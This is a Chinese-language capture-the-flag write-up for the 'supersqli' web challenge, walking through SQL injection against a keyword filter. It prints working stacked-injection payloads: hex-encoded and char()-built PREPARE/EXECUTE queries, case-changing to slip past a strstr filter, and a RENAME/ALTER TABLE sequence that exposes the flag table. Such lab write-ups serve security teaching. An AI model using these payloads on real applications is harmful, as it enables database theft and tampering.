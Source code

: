 ## supersqli

试一下注入

```html
?inject=?inject=1' or '1'='1
```

返回

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(2) {
  [0]=>
  string(1) "2"
  [1]=>
  string(12) "miaomiaomiao"
}

array(2) {
  [0]=>
  string(6) "114514"
  [1]=>
  string(2) "ys"
}
```

看了存在注入点

试一下注入

```
?inject=1' union select database()#
```

显示

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

看了是过滤了select|update|delete|drop|insert|where，这怎么搞。。。。

看了大佬的博客，发现了堆叠注入这一操作

试一下

```
?inject=1';show databases;#
```

返回

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(1) {
  [0]=>
  string(11) "ctftraining"
}

array(1) {
  [0]=>
  string(18) "information_schema"
}

array(1) {
  [0]=>
  string(5) "mysql"
}

array(1) {
  [0]=>
  string(18) "performance_schema"
}

array(1) {
  [0]=>
  string(9) "supersqli"
}

array(1) {
  [0]=>
  string(4) "test"
}
```

show tables返回两张表

```
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}
```

存在堆叠注入

利用

```
@t=(sql 查询语句的hex值);prepare x from @t;execute x;#
```

bypass进行堆叠注入

```python
python
>>> import binascii
>>> binascii.b2a_hex("select * from supersqli.1919810931114514")
'73656c656374202a2066726f6d20737570657273716c692e31393139383130393331313134353134'
```

可得

```
payload=?inject=1';set @t=0x73656c656374202a2066726f6d20737570657273716c692e31393139383130393331313134353134;Prepare x from @t;Execute x;#
```

有一个坑点是题目用strstr对prepare和excute做了过滤，但是可以通过改变大小写来bypass

第二种方法是利用chr()拼接bypass

可以利用python写个脚本跑一跑

```python
payload = "1';set @s=concat(%s);PREPARE a FROM @s;EXECUTE a;"
exp = "select flag from `1919810931114514`"
res = ''
for i in exp:
	res += "char(%s),"%(ord(i))
encode_payload = payload%(res[:-1])
print encode_payload
```

第三种方法是利用堆叠注入把1919810931114514这个表重命名为word，然后查询的时候就可直接查到这个表了

```
payload=1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;show columns from words;#
```

### 参考资料：

堆叠注入：https://www.cnblogs.com/0nth3way/articles/7128189.html

两种解法：[https://blog.zeddyu.info/2019/06/04/2019qwb/#%E9%9A%8F%E4%BE%BF%E6%B3%A8](https://blog.zeddyu.info/2019/06/04/2019qwb/#随便注)

char的解法:[https://skysec.top/2019/05/25/2019-%E5%BC%BA%E7%BD%91%E6%9D%AFonline-Web-Writeup/#%E9%9A%8F%E4%BE%BF%E6%B3%A8](